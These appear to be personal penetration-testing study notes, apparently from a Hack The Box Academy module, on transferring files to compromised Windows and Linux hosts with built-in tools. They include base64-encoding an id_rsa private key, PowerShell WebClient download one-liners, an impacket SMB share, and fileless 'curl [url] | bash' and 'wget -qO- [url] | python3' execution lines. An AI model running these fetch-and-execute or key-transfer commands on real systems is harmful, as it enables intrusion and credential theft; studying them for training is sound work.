 ![[Pasted image 20240825050625.png]]

# #LOTL Techniques to #download #files

## PowerShell Base64 Encode & Decode
First encode the file you want to download in base64 : `cat id_rsa |base64 -w 0;echo`

Then decode it on target : `[IO.File]::WriteAllBytes("[path to write file to]", [Convert]::FromBase64String("[base64 encoded file]"))`


## PowerShell Web Downloads

Most companies allow `HTTP` and `HTTPS` outbound traffic through the firewall to allow employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks.

PowerShell offers many file transfer options. In any version of PowerShell, the [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource:

| **Method**                                                                                                               | **Description**                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

Creating SMB share to download the file on windows hosts

```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```r
copy \\[0.0.0.0]\share\[filename]
```
# Linux #file #transfers
#### Encode SSH Key to Base64

```shell
cat [file to transfer] |base64 -w 0;echo
```

We copy this content, paste it onto our Linux target machine, and use `base64` with the option `-d' to decode it.

#### Linux - Decode the File

```shell
echo -n '[generated B64 output]' | base64 -d > id_rsa
```

Confirm the files are the same with ` md5sum [file] ` and compare the output.

Download files from internet using 

`wget [url]`  / `curl -o [output file] [url]`

Fileless [???] with curl : `curl [url] | bash`
                                   ^^^ change software if needed, bash jf example.

Fileless [???] with wget : `wget -qO- [url] | python3`
                                   ^^^ change software if needed, py3 jf example.

**enable shh server** : `sudo systemctl enable ssh`

# With code

https://academy.hackthebox.com/module/24/section/1574
flemme sah

